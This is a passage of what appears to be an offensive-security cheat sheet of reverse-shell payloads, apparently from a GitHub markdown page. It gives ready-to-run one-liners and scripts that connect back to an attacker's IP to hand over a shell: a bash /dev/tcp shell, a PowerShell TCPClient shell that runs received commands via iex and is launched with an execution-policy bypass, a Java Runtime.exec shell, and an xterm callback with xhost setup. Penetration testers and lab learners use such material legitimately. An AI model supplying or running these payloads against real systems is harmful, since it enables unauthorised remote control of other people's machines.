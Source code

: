 ```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Powershell Reverse Shell

Create a simple powershell script called reverse.ps1:

```powershell
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```

```powershell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### Java Reverse Shell

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Xterm Reverse Shell

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```bash
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

```bash
Xnest :1

```

You’ll need to authorise the target to connect to you (command also run on your host):

```bash
xhost +targetip
```

##

## Linux
